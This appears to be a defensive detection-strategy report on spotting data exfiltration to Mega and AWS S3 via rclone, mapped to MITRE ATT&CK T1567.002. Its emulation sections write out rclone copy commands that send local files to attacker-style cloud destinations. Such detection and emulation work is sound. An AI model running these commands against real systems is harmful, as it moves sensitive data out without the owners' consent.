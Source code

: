 # Alerting & Detection Strategy (ADS) Report

## Goal
This technique aims to detect adversarial attempts to exfiltrate data using cloud storage solutions by exploiting tools like `rclone` on various operating systems.

## Categorization
- **MITRE ATT&CK Mapping:** T1567.002 - Exfiltration to Cloud Storage
- **Tactic / Kill Chain Phases:** Exfiltration
- **Platforms:** Linux, macOS, Windows

[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1567/002)

## Strategy Abstract
The detection strategy focuses on monitoring data flows and command usage associated with cloud storage tools like `rclone`. It leverages system logs (e.g., process creation, network traffic) and endpoint security solutions to identify patterns of data exfiltration. Key indicators include unusual outbound connections to cloud service IPs or domains and the execution of commands related to file transfers.

## Technical Context
Adversaries often use `rclone` for its cross-platform capabilities and ease of automating file transfers to various cloud services, including Mega and AWS S3. Attackers may execute these actions covertly by scripting or using legitimate credentials compromised through phishing or other means. 

**Adversary Emulation Details:**
- Commands such as `rclone copy /path/to/data mega:` or `rclone copy /path/to/data s3://bucket-name/` are commonly used.
- Test scenarios might involve running these commands under different user accounts to assess detection coverage.

## Blind Spots and Assumptions
- **Network Evasion:** Adversaries may use encrypted tunnels (e.g., VPNs) or obfuscation techniques, potentially bypassing network-based detection methods.
- **User Privileges:** Detection assumes adversaries have sufficient privileges to execute `rclone` with necessary permissions.
- **Environment Variability:** Diverse system configurations and security policies might impact the consistency of detection.

## False Positives
Potential benign activities include:
- Authorized users performing legitimate backups or data transfers using `rclone`.
- Scheduled maintenance tasks that involve automated cloud storage operations.

## Priority
**High**: Due to the critical nature of preventing unauthorized data exfiltration, especially given the widespread use of cloud services. The ability for adversaries to silently move large volumes of sensitive data poses significant risks.

## Validation (Adversary Emulation)
### Exfiltrate data with rclone to cloud Storage - Mega (Windows)
1. Install `rclone` on a Windows machine.
2. Configure `rclone` with necessary credentials to access a Mega account.
3. Execute the command: `rclone copy C:\path\to\data mega:`.
4. Monitor network traffic and logs for outbound connections to Mega's IP ranges or domains.

### Exfiltrate data with rclone to cloud Storage - AWS S3
1. Install `rclone` on a Windows machine.
2. Configure `rclone` with AWS credentials and access to an S3 bucket.
3. Execute the command: `rclone copy C:\path\to\data s3://bucket-name/`.
4. Observe network traffic for connections to AWS endpoints, focusing on unusual patterns or volumes.

## Response
When an alert fires:
- **Investigate**: Verify if a legitimate business process is in progress.
- **Contain**: If unauthorized activity is confirmed, isolate affected systems and terminate suspicious processes.
- **Eradicate**: Remove malicious tools or scripts used for exfiltration.
- **Recover**: Restore any compromised data from backups and reinforce security controls.

## Additional Resources
Additional references and context:
- None available

This report provides a structured framework to detect and respond to adversarial attempts at data exfiltration using cloud storage tools. Regular updates to detection techniques and continuous monitoring are essential to adapt to evolving threat landscapes.